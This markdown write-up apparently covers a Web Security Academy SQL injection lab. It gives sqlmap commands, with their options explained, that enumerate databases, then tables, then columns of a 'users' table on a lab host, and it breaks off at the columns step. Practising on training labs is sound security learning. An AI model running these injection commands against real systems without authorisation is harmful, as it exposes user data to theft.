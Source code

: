
### **<strong><font color="MediumPurple">Automated</font></strong>**
#### **<strong><font color="RosyBrown">SQLmap</font></strong>**
***

**📍 Fetching databases names:**

* <strong><font color="White">Command:</font></strong> 
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 --dbs --batch
```
* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -proxy=http://127.0.0.1:8080 : Using BurpSuite proxy for debugging purposes <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -u : Target URL <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -p : Testable parameter <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -technique=U : SQL Injection technique to use. Here i'm using the UNION technique <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -threads : Maximum number of concurrent HTTP requests (default 1) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -level : Level of test to perform (5 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -risk : Risk of test to perform (3 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -dbs : Enumerate databases (schema) names <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -batch : Never ask for user input, use the default behavior <br/>

* <strong><font color="White">Execution:</font></strong>  
![SQLMap_1](https://user-images.githubusercontent.com/101610095/220312739-645d4223-81ca-4ef9-b413-977a79cdf9ce.png) <br/>
> 📝 ***Here the database ```public``` is the one we are interested in.***

**📍 Fetching tables for database: 'public'**
* <strong><font color="White">Command:</font></strong> 
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public --tables --batch
```
* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -tables : Enumerating database tables <br/>

* <strong><font color="White">Execution:</font></strong>  
![sqlmap_2](https://user-images.githubusercontent.com/101610095/220314044-2082729c-fe77-4806-971b-f04bae465756.png)

**📍 Fetching columns for table 'users' in database 'public'**

* <strong><font color="White">Command:</font></strong>   
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --columns --batch
```
* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -columns : Enumerating database table columns <br/>
